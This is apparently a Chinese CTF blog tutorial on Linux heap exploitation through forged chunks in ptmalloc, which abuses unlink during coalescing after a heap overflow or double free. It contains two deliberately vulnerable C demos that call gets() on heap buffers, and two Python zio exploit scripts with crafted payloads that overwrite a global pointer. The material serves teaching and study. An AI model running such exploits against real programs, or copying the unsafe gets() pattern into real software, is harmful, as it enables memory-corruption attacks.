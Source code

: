 ```yaml
---
title: Linux Pwn 之堆块伪造技术
date: 2018-06-15 09:50:08
tags: Exploit
author: gumeng
categories: Pwn
---
```


借鉴下别人的文章，如有冒犯，还望多多包涵

# Linux下的堆块伪造
这是一个基本的堆利用技巧，很多堆利用的地方都会用到。比如double free。
这种利用方式的出现是由于unlink的check机制的出现。这里主要从堆溢出和double free两个角度谈一下。

## 原理
1.ptmalloc的相邻空块合并原则。
2.堆chunk本身的结构机制。

## 详解
堆chunk判断一个块是否为空仅仅依赖于相邻后块的**prev_size**和**最低flag位**。
如果在堆上构造合理的堆块结构，那么堆管理机制就会误以为我们的伪造的堆块是真正的空堆块。
当释放掉相邻的后块时（这个块是真的），就会触发空块合并。也就达成了堆块伪造的目的。

## 要求

```
1.有两个相邻的堆块
2.第一个堆块可溢出第二个
3.释放第二个堆，即可触发。
```

这种是最常见的利用，即有check的堆溢出利用。

或者

```
1.有一个已分配的堆
2.有一个指向堆上的可控指针
3.free参数可控
```
这种情况下，是在分配的一大块堆中强行构造出两块chunk。然后利用那个指向堆上的可控指针来实现free触发漏洞。
这其实是一种double free的利用方式，因为如果你分配了两块堆，然后把这两块堆都释放之后，这些内存会合并到top chunk中。当再次分配堆的时候，还是使用这些内存地址。

那么如果我们进行以下操作：


```
1.分配两个堆
2.释放掉这两个堆
3.分配一个可以包含住前面两个堆的大堆块
4.写入这个大堆块构造两个伪chunk
5.通过第2步中释放两个堆
```
这样对于初始的两个堆来说，就像是double free了，当然本质还是堆块伪造。
## 利用的效果
如果成功的使用了伪造堆，那么达到的效果是什么呢？首先，是不可能像unlink利用一样任意地址写了。
因为对于目前的ptmalloc来说，有如下check：
current->fd->bd!=current;
current->bd->fd!=current;
为了过掉这个检验我们会用一个指向堆块的全局指针的地址的一个偏移作为伪chunk的fd。
fd=ptr-12;
bd=ptr-8;
然后在断链的过程中，就会把**ptr**的值改成**&ptr-12**,感觉很鸡肋是吧？
毕竟费这么大力气只是把一个全局变量的值给改成了他的地址－0xC，但是这个东西确实是这么去利用的。
在CTF中会跟其他的漏洞或功能结合去使用。


## 两个演示的DEMO
为了具体的说明问题，这里写了两个demo演示效果。
### Demo1


```void *global[80];

void *global[80];

int main(void)
{
    void *p1,*p2;
    p1=malloc(200);
    p2=malloc(200);
    global[40]=p1;
    printf("before exploit:%x\n",global[40]);
    puts("read");//for debug
    gets(p1);//overflow
    free(p2);
    printf("after exploit:%x\n",global[40]);
    return 0;
}

```
这是对应于第一种堆溢出覆盖下一块堆的情况的，如果使用下面的exp就会发现global中malloc返回的地址已经变成了 global[40]本身的地址－0xC

```from zio import *
io=zio('./h1',timeout=9999)
#io.gdb_hint()
io.read_until('read')
sc=l32(0x0)+l32(0xc9)+l32(0x804A100-0xc)+l32(0x0804A100-0x8)+'a'*(200-16)+l32(0xc8)+l32(0xd0)
io.writeline(sc)
io.read()
```

### Demo2

```int *global[40];
int main(void)
{
  void *p1,*p2,*p3;
  p1=malloc(200);
  p2=malloc(200);
  global[20]=p1;
  free(p1);
  free(p2);
  p3=malloc(500);
  puts("get");//for debug
  gets(p3);
  free(p2);
  return;
}
```
这个Demo展示的是double free。可以看到对于p2指针来说确实是释放了两次。

```
from zio import *
io=zio('./h2',timeout=99999)
#io.gdb_hint()
io.read_until('get')
sc=l32(0x0)+l32(201)+l32(0x804a0b0-0xC)+l32(0x804a0b0-0x8)+'a'*(200-16)+l32(200)+l32(0x128)
io.writeline(sc)
io.read()
```
这个exp就可以实现利用，感觉这个exp的伪堆块构造要比上面Demo更复杂一些。这个exp我搞了好久，因为不知道为什么一直会触发free的check导致程序崩溃。后来查了一些资料终于明白了，必须要保证你分配的堆与你在其中构造的两个堆块的大小完全一致。
比方说我这里是malloc(500)，调试一下发现分配了504（鬼知道为什么），那么就是504-8-200=0x128，如果不跟分配的堆块边境符合的话就会触发check从而crash掉。


by:Ox9A82



